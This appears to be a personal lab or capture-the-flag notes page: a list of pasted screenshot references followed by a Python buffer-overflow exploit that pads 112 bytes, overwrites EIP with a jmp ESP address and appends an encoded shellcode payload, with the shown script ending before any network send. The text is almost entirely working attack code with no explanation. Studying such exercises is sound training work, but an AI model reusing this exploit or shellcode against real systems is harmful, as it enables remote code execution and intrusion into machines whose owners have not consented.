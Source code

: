 ![[Pasted image 20231114130903.png]]
![[Pasted image 20231114132324.png]]
![[Pasted image 20231114132602.png]]
![[Pasted image 20231114132845.png]]
![[Pasted image 20231114133251.png]]
![[Pasted image 20231114133642.png]]![[Pasted image 20231114134205.png]]

![[Pasted image 20231114140051.png]]
![[Pasted image 20231114140102.png]]
![[Pasted image 20231114140113.png]]
![[Pasted image 20231114140846.png]]
![[Pasted image 20231114141628.png]]
![[Pasted image 20231114142951.png]]
![[Pasted image 20231114143157.png]]
![[Pasted image 20231123114209.png]]![[Pasted image 20231123114311.png]]
![[Pasted image 20231123114703.png]]
![[Pasted image 20231123114728.png]]
![[Pasted image 20231123114936.png]]
![[Pasted image 20231123115118.png]]
![[Pasted image 20231123115532.png]]
![[Pasted image 20231123124540.png]]
![[Pasted image 20231123124920.png]]
![[Pasted image 20231123124942.png]]
![[Pasted image 20231123125120.png]]
![[Pasted image 20231123125331.png]]
![[Pasted image 20231123131403.png]]
![[Pasted image 20231123131816.png]]
![[Pasted image 20231123134836.png]]


import socket

offset = 112
before_eip = b"A" * offset

eip = b"\x55\x9d\x04\x08"  # 8049d55 -> jmp ESP

shellcode = b""
shellcode += b"\xbf\xf5\xf9\x13\x86\xda\xc2\xd9\x74\x24\xf4"
shellcode += b"\x5a\x29\xc9\xb1\x12\x83\xea\xfc\x31\x7a\x0e"
shellcode += b"\x03\x8f\xf7\xf1\x73\x5e\xd3\x01\x98\xf3\xa0"
shellcode += b"\xbe\x35\xf1\xaf\xa0\x7a\x93\x62\xa2\xe8\x02"
shellcode += b"\xcd\x9c\xc3\x34\x64\x9a\x22\x5c\xb7\xf4\x4c"
shellcode += b"\x04\x5f\x07\x6f\x35\x1b\x8e\x8e\x85\x3d\xc1"
shellcode += b"\x01\xb6\x72\xe2\x28\xd9\xb8\x65\x78\x71\x2d"
shellcode += b"\x49\x0e\xe9\xd9\xba\xdf\x8b\x70\x4c\xfc\x19"
shellcode += b"\xd0\xc7\xe2\x2d\xdd\x1a\x64"
